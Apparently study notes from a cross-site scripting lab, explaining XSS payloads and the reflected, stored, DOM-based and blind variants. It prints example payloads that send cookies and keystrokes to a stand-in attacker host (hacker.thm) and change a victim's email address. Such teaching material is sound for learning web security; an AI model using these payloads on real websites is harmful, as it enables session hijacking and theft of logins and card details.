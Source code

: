 The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:
`<script>alert('XSS');</script>`

**Session Stealing:**
Details of a user's session, such as login tokens, are often kept in cookies on the target's machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission, and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged in as that user.
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

**Key Logger:**
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

**Business Logic:**
This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
`<script>user.changeEmail('attacker@hacker.thm');</script>`

#### XSS Vulnerability
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
![[XSS.png]]

#### **Stored XSS**
As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

**Example Scenario:**  
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.

#### **DOM Based XSS**
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

#### **Blind XSS**
Blind XSS is similar to stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.
